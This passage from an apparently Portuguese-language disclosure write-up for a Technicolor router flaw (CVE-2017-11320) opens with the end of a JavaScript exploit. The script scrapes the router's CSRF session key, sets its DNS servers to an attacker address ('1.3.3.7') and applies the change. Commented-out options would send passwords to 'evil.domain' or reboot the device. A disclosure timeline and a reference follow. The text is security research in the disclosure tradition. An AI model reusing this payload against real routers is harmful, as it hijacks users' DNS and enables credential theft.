 					xmlhttp=new XMLHttpRequest();	
					xmlhttp.open("GET", "/rede-dnsv4.html", false); // GET the DNS Config page
					xmlhttp.send();
					var w = xmlhttp.responseText.indexOf("Key") ; // Search for the SessionKey, some sort of CSRF Token
					var sessionKey = xmlhttp.responseText.slice(w,w+20).match(/'([^']+)'/)[1] ; // Regex because the key is inside quotes
					var i_wanip = xmlhttp.responseText.indexOf("wanip") ;
					var wanip = xmlhttp.responseText.slice(i_wanip,i_wanip+30).match(/'([^']+)'/)[1] ;
					var i_wansubnet = xmlhttp.responseText.indexOf("wansubnet") ; 
					var wansubnet = xmlhttp.responseText.slice(i_wansubnet,i_wansubnet+30).match(/'([^']+)'/)[1] ;
					var i_wangatewayip = xmlhttp.responseText.indexOf("wangatewayip") ; 
					var wangatewayip = xmlhttp.responseText.slice(i_wangatewayip,i_wangatewayip+30).match(/'([^']+)'/)[1] ;

					xmlhttp=new XMLHttpRequest();
					xmlhttp.open("GET", "/rede-dnsv4.cgi?enblDhcpClnt=0&wanIpAddress="+wanip+"&wanIfName=wanbridge&wanSubnetMask="+wansubnet+"&wanIntfGateway="+wangatewayip+"&dnsPrimary="+attackers_dns+"&dnsSecondary="+attackers_dns+"&sessionKey="+sessionKey, false);
					xmlhttp.send(); // Send the request to SAVE the Primary and Secondary DNS with the CSRF Token

					//After saving we need to apply the settings. yeah, fuck logic --'

					//Getting a brand NEW SessionKey
					xmlhttp=new XMLHttpRequest();	
					xmlhttp.open("GET", "/rede-dnsv4.html", false); // GET the DNS Config page
					xmlhttp.send();
					var w = xmlhttp.responseText.indexOf("Key") ; // Search for the SessionKey, some sort of CSRF Token
					var sessionKey = xmlhttp.responseText.slice(w,w+20).match(/'([^']+)'/)[1] ; // Regex because the key is inside quotes

					xmlhttp=new XMLHttpRequest();	
					xmlhttp.open("GET", "/wandnscfg.cmd?sessionKey="+sessionKey, false); // GET the apply DNS page
					xmlhttp.send();
				}

				// Choose your path !
				//get_passwords("http://evil.domain/") ;
				//reboot_router();
				dns_poisoning("1.3.3.7")


#### PostMortem

*   Pretendo ler o UART essa semana ainda para ver se consigo desbloquear a porta
*   A página vulnerável está toda em inglês, talvez seja default do chip Broadcom, mas não tenho como testar. Teste o seu modem para ver se wlscanresults.html existe, se existir me avisa, e você provavelmente estará vulnerável (:

### TimeLine

*   08/07/2017 — Primeiro Email enviado à Technicolor/NET (Sem Resposta)
*   16/07/2017 — Segundo Email enviado à Technicolor/NET (Sem Resposta)
*   18/07/2017 — Terceiro Email enviado à Technicolor/NET (Sem Resposta)
*   02/08/2017 — Full disclosure : CVE-2017–11320

### Refs

\[1\] [https://media.blackhat.com/eu-13/briefings/Heiland/bh-eu-13-practical-exploitation-heiland-slides.pdf](https://media.blackhat.com/eu-13/briefings/Heiland/bh-eu-13-practical-exploitation-heiland-slides.pdf)


